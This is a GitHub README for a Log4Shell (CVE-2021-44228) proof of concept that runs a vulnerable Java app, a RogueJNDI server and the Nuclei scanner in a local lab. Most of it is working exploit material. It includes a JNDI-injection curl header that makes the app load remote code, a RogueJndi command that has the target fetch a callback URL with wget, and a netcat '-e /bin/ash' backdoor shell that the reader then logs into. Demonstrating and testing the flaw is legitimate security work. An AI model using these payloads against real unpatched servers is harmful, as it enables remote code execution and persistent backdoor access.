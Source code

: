# Log4Shell POC

Demonstrates the Log4Shell (CVE-2021-44228) vulnerability.
You can run a simple attack to demonstrate JNDI out of band (OOB) attack. But also more sophisticated attacks with your own code e.g. to open a backdoor using netcat (nc).

This repo consists for three parts:

1. Vulnerable App (Vulnerable-App)
2. JNDI Server (RogueJndi)
3. Vulnerability Scanner (Nuclei)

All three repos have their origin in separate upstream projects (see following sections for more details)

# Requirements

1. Java
2. Maven

## Install maven

### MacOS

```bash
brew install maven
```

# Setup

## Run the vulnerable app

```bash
docker build -f log4shell-vulnerable-app/Dockerfile -t vulnerable-app log4shell-vulnerable-app/.
docker run -p 8080:8080 -p 3001:3001 --name vulnerable-app --rm vulnerable-app
```

## Get your local ip address (MacOS)

```bash
# for ethernet
ipconfig getifaddr en0
# for wireless
ipconfig getifaddr en1

```

## Test app for vulnerability

Build the docker container

```bash
docker build -f nuclei/Dockerfile -t nuclei nuclei/.
```

Now let's test if the server will tell us its hostname. Replace "your-private-ip" with the ip of your vulnerable app docker container

```bash
docker run -it --rm --entrypoint bin/ash nuclei
nuclei -duc -t /root/nuclei-templates/cves/2021/CVE-2021-44228.yaml -u http://your-private-ip:8080
```

If the remote server is vulnerable to the log4shell bug, it will give you an output like following. The last element in the output (8dc4a6fbe91b) is the remote server's hostname.

```bash
$> nuclei -duc -t /root/nuclei-templates/cves/2021/CVE-2021-44228.yaml -u http://192.168.1.126:8080
                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   2.6.0

                projectdiscovery.io

[WRN] Use with caution. You are responsible for your actions.
[WRN] Developers assume no liability and are not responsible for any misuse or damage.
[INF] Using Nuclei Engine 2.6.0 (latest)
[INF] Using Nuclei Templates 8.8.4 (latest)
[INF] Templates added in last update: 3030
[INF] Templates loaded for scan: 1
[INF] Using Interactsh Server: oast.live
[2022-02-06 19:12:58] [CVE-2021-44228] [http] [critical] http://192.168.1.126:8080/ [62.2.17.166,8dc4a6fbe91b.xapiversion.c801rcpc7q5s72ri0tr0ceyb5pyyyyyyr.oast.live,xapiversion,8dc4a6fbe91b]
```

# Exploit the server

Now let's run some command on the remote server.

The JNDI Server (RogueJNDI) will run a JNDI server (port 1389) and a http server (8000). The JNDI Server will serve exploit code to be executed on the vulnerable-app. The http server is a backcall server for receiving calls sent from the vulnerable app.

## Run the JNDI server

Start a new console and run the following commands. This will start two servers listening on separate ports.
1. LDAP Server, port  1389
2. Web Server, port 8000
The web server will serve the code to execute. The LDAP server will tell the vulnerable app where to load the code to execute.

```bash
cd rogue-jndi
mvn compile package
java -jar target/RogueJndi-1.1.jar -c "wget http://your-private-ip:8000/callback/gugus"
```

```bash
java -jar target/RogueJndi-1.1.jar -c "wget http://192.168.1.126:8000/callback/gugus"
```

## Issue simple attack

Call the vulnerable app (on 127.0.0.1:8080) to load remote code from your jndi server (jndi:ldap://your-private-ip:1389). The code is referenced by the path (/o=reference).
Replace the code to be executed as you wish. You'll find it in the following file:
rogue-jndi/src/main/java/artsploit/ExportObject.java

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/o=reference}'
```

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://192.168.1.126:1389/o=reference}'
```



## Backdoor
Let's start a backdor using netcat (nc) on the vulnerable app server.

Restart the jndi server with the following command.

```bash
java -jar target/RogueJndi-1.1.jar -c "nc -vv -l -p 3001 -e /bin/ash"
```

Start the remote nc server on the vulnerable app

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/o=reference}'
```

Login with nc

```bash
nc -v localhost 3001
```

Run some commands

```
ls
uname -r
ls /app
```

# References

## Vulnerable app

https://github.com/christophetd/log4shell-vulnerable-app

## RogueJNDI

https://github.com/veracode-research/rogue-jndi.git

## Nuclei
